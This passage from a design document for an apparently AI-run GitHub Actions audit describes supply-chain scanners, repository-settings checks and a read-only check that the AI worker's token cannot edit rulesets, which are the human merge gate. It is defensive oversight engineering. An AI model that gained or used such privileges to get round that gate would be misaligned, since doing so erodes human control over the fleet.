`"$TOOL"`), and comment lines are exempt for every tool — their resolution
is either immutable or not statically decidable.

**Commands are normalised before matching**. The tool used to
have to be token 0 and the subcommand token 1, so two everyday spellings —
`sudo npm install -g <pkg>` and `npm --global install <pkg>` — read as
clean, and a backslash-continued install produced a garbage finding id.
Normalisation now: joins backslash line continuations into one command
(anchoring the call-site to the line the command starts on), strips wrapper
prefixes (`sudo`, `env`, `command`, `exec`, their flags and flag values,
and leading `VAR=value` assignments), and locates the subcommand as the
first non-flag argument rather than at a fixed index.

Findings **consolidate one per package coordinate** (`<tool>` + package
name), listing every call-site `file:line`, so a package installed by three
workflows files one issue rather than three (the same anti-flood rule as
the SHA-pin pre-filer). Each is filed at `severity:medium` via the shared
`fileWorkflowFinding` helper, deduplicated against the known-open ids plus
all earlier pre-files. An in-source `best-practice-ignore:
BP-CI-INSTALL-PIN-…` marker on (or immediately above) the offending line
suppresses that call-site. A scanner failure never aborts the audit, but it
is **logged at `ERROR`** rather than swallowed — the bare
`catch {}` it replaces made a broken scanner indistinguishable from a repo
with nothing to find.

**Pin, do not blanket-`--ignore-scripts`.** The suggested fix is an exact
version plus a Renovate `customManagers` regex covering
`.github/workflows`, keeping the pin current inside the quarantine window.
Packages whose postinstall is genuinely required — `pa11y-ci` fetching a
browser, for instance — are still pin-checked, but the finding never pushes
the repo towards `--ignore-scripts`, which would break them.

**The scan itself raises no PR.** Per isolation each repo owns
its own workflows: the pre-filer only *detects and files*, and the pin
rides a normal per-repo worker PR through the pre-merge gate.

### Native GHSA advisory pre-filer

The pin scanner proves pin *shape*; this asks the GitHub Advisory Database
whether a pinned action has a disclosed, unpatched vulnerability
(`GHA-SUPPLY-018`). `lib/action_advisory_scanner.ts` enumerates every
third-party `uses:` coordinate across workflow and composite-action files
(local `./` references, first-party `stSoftwareAU/*` and `docker://` images
are exempt), queries `gh api /advisories?ecosystem=actions&affects=<owner/name>`
once per coordinate, and files one finding per advisory as
`BP-GHSA-<owner>-<slug>-<GHSA id>` (severity from the advisory band:
critical/high → `high`, medium → `medium`, else `low`), with the vulnerable
range, first patched version and every call site in the evidence. A lookup
that fails or returns something unparsable is logged loud and yields no
finding — never a silent "clean".

### Native repository-settings pre-filer

Workflow YAML can be perfect while the repository settings under it are
wide open. `lib/repo_settings_scanner.ts` reads, read-only, the workflow
token defaults (`actions/permissions/workflow`), which actions may run and
whether SHA pinning is enforced (`actions/permissions`), the default
branch's pull-request rule (`rules/branches/<default>` — approvals and
code-owner review, the latter only when `.github/CODEOWNERS` exists), and
secret scanning / push protection (`security_and_analysis`). Each open
setting is one stable finding (`BP-REPO-DEFAULT-TOKEN-WRITE`,
`BP-REPO-ACTIONS-MAY-APPROVE-PRS`, `BP-REPO-ACTIONS-ALLOW-ALL`,
`BP-REPO-SHA-PIN-NOT-ENFORCED`, `BP-REPO-RULESET-NO-REVIEW`,
`BP-REPO-CODEOWNERS-NOT-ENFORCED`, `BP-REPO-SECRET-SCANNING-OFF`,
`BP-REPO-PUSH-PROTECTION-OFF`, and — when the repository runs a "selected"
allow-list — `BP-REPO-ACTIONS-ALLOW-LIST-INCOMPLETE` for any action the
workflows need that the list omits, composite steps included,)
whose fix text says plainly that a
repository admin must act — the worker cannot change settings; it makes
the drift visible on the board instead of in a report. An unreadable
endpoint is logged and yields nothing. Wording avoids the literal
`secret_scanning*: value` and `id-token: write` pairs the outbound secret
masker rewrites.

### Native worker-token privilege check

The settings pre-filer asks whether the repository is locked down enough;
this asks the opposite question — whether the worker's own token is trusted
too much (Issue #599). The operator's hard constraint is that the Vibe Coder
must never be able to change a GitHub ruleset: rulesets are how a human keeps
builds clean before a merge, so a worker that can edit them can also erase the
gate protecting the fleet. Until this check existed the constraint held only
because the worker did not call those endpoints.

`lib/worker_token_privilege_scanner.ts` verifies it actively and read-only.
It reads `repos/{owner}/{repo}` and inspects `.permissions`: `admin` or
`maintain` true means the token can create, edit and delete rulesets and
change repository settings. Only when one of those is granted does it spend
two further reads to name the grant precisely — the token's identity (`user`)
and, for a GitHub App installation token, the installation's `administration`
and `repository_hooks` permissions (`repos/{owner}/{repo}/installation`).

The finding is one stable escalation per repo,
`BP-WORKER-TOKEN-CAN-EDIT-RULESETS`, filed with `needs-human`, `security` and
`severity:high`; the stable id means a re-run updates rather than re-files.
The remedy in the body is the human one: downgrade the service account to
`write`/`push` on the repository, or narrow the App installation's
`administration` permission.

Two invariants hold:

- **No write, ever.** The check never creates, modifies or deletes a ruleset
  to test access — it reads the permission surface only.
- **Fail loud.** A lookup that errors, or a repository payload with no
  `.permissions` object, is logged through `onLookupFailure` and yields no
  finding. Unknown scope is never reported as "verified safe".



### Closing the settings findings: `repo-settings-harden`

The settings pre-filer reports; `mod.ts repo-settings-harden --repo owner/name`
closes. It reads the same four surfaces, plans only the writes that change
something (a hardened repository plans nothing), prints the plan by default
and applies it under `--apply`: read-only default token and no approve-PRs;
`sha_pinning_required`; `allowed_actions=selected` with GitHub-owned actions
implicit and one `<owner>/<repo>@*` pattern per third-party action found in
the checkout's workflows (`--work-dir`) **and per action those actions pull
in** — a composite action's own `uses:` is enforced by the allow-list exactly
like a workflow's, so `aquasecurity/trivy-action` needs
`aquasecurity/setup-trivy@*` too (the command reads each
third-party action's `action.yml` at its pinned ref via `gh api` and follows
the chain; a manifest it cannot read is reported as a warning, and
`--allow-action owner/repo[,owner/repo]` adds anything the operator vouches
for). An already-"selected" list that misses a pattern is extended, keeping
what it has; secret scanning and push protection
(a private repository needs Secret Protection — a refused write is reported).
`--require-code-owner-review` turns `require_code_owner_review`
on for the default branch's pull-request rule and leaves the approval count
alone: a PR that touches a path named in `.github/CODEOWNERS` — the workflows,
actions and scripts, i.e. every unreviewed grant of CI credentials — waits for
an owner's approval, while every other PR (the fleet's included) merges as
before. That is the recommended shape for an autonomous fleet, and the
settings pre-filer treats "code-owner review on, zero approvals" as the chosen
policy rather than a `BP-REPO-RULESET-NO-REVIEW` finding.
`--require-reviews` additionally requires one approving review on every PR and
code-owner review; it is opt-in only because it stops the fleet's autonomous
auto-merge until a human approves each PR, and it wins when both flags are
given. Needs an admin token —
an operator command, not a fleet task. Applied to VibeCoder on 2026-08-18
(everything except the review rule).

## 6-finding cap and priority order

A single GitHub Actions audit run files **at most 6 standalone
findings**, ordered `severity:high` > `severity:medium` >
`severity:low`. The cap is enforced in Phase 3 of the prompt: Claude
sorts surviving findings by severity and keeps the top 6.

The pre-filers consume slots first: the actionlint pre-finding, each
runner-deprecation finding, each native SHA-pin finding, each native
permissions finding, each native script-injection finding, each native
workflow-trigger finding, each native checkout-persist-credentials
finding, each native broad-artefact-upload finding, each native
milestone-branch-filter finding, each native unpinned-CI-install finding,
and the worker-token privilege escalation take one slot apiece, leaving the remainder for Claude's findings. The cap is hard
— surplus candidates are silently dropped.

**No overflow tracker.** Like the best-practices and test-audit scans —
and unlike the security-scan template — the GitHub Actions audit does
**not** file an overflow tracker when more than six candidates survive
triage. The next weekly scan re-detects them (subject to dedup against
open issues).

## Suppression-comment syntax

A finding can be suppressed in-source by adding the host language's
standard ignore comment with the finding ID and a short reason. The
GitHub Actions audit shares the `best-practice-ignore: BP-…` grammar with
the best-practices and test-audit scans — recognised by
[`worker/deno/lib/suppression_comments.ts`](../worker/deno/lib/suppression_comments.ts)
— and applies on every subsequent run (the suppressed id is
pre-substituted into the `{{SUPPRESSED_IDS}}` placeholder so Claude drops
the finding in Phase 3 triage).

The canonical form is `best-practice-ignore: BP-<id> — author=<login> expires=<YYYY-MM-DD> <reason>`. Most
GitHub Actions findings live in YAML, so the YAML comment form is the
common case:

```yaml
# best-practice-ignore: BP-1234567890ab — author=nigel expires=2026-12-31 pinning to a moving ref is
# intentional for this developer-only smoke workflow.
uses: actions/checkout@main
```

```yaml
# best-practice-ignore: BP-STALE-ACTION-actions-setup-node — author=nigel expires=2026-12-31 the v3 pin
# is required until the self-hosted runner image ships Node 20.
uses: actions/setup-node@v3
```

The grammar also accepts the other markers recognised by
`suppression_comments.ts` (`# noqa: BP-…`,
`// eslint-disable-next-line BP-…`) for findings in non-YAML files (e.g.
a script invoked from a `run:` step).

## No PR, ever

A GitHub Actions audit idle-task **never raises a pull request**,
regardless of outcome. Every finding is filed as a standalone GitHub
issue in the scanned repo; the wrapper idle-task issue is closed with a
summary comment and nothing else. Because the template sets
`skipMilestone: true`, the wrapper is not assigned to any milestone, so
closing it never triggers the milestone-completion → merge-PR flow that
ordinary milestone work uses.

The only artefacts a GitHub Actions audit run produces are:

1. **New finding issues** — the actionlint and runner-deprecation
   pre-files (when applicable) plus the issues Claude files via `gh issue
   create` from Phase 4 of the prompt, capped at six per run.
2. **A closing comment** on the wrapper idle-task issue — either
   `no findings` or `GitHub Actions audit complete. Filed N issues: #A,
   #B, …` (numbers sorted ascending), with a trailing
   `Runner-deprecation pre-files: …` line when the pre-filer fired and a
   `Runner-deprecation scan failed: …` line when the scanner threw.

Auto-remediation is **out of scope** for the scan. Fixes are filed as
ordinary issues that flow through the normal triage → planning →
work-on pipeline, where each fix is implemented and reviewed
individually.

## Related documentation

- [`docs/IDLE-TASK-FRAMEWORK.md`](IDLE-TASK-FRAMEWORK.md) — Framework
  operator manual; lifecycle diagram common to every template.
- [`docs/BEST-PRACTICES-SCAN.md`](BEST-PRACTICES-SCAN.md) — Sibling
  template (best-practices review). This document mirrors its structure;
  it also records the retirement of the `github-actions` bucket.
- [`docs/TEST-AUDIT-SCAN.md`](TEST-AUDIT-SCAN.md) — Sibling template
  (static test-suite maintainability and coverage-gap audit).
- [`docs/SECURITY-SCAN.md`](SECURITY-SCAN.md) — The first idle-task
  template (security audit).
- [`prompts/github_actions_audit/`](../prompts/github_actions_audit/) —
  Orchestrating prompt (Phases 1–4). The cap, label set, check
  catalogue, id recipes, and per-finding body shape live in the prompt,
  not in Deno code.
- [`DESIGN-PRINCIPLES.md`](../DESIGN-PRINCIPLES.md#github-actions-audit-scans-template-4) —
  Worker-side design principles for the GitHub Actions audit.
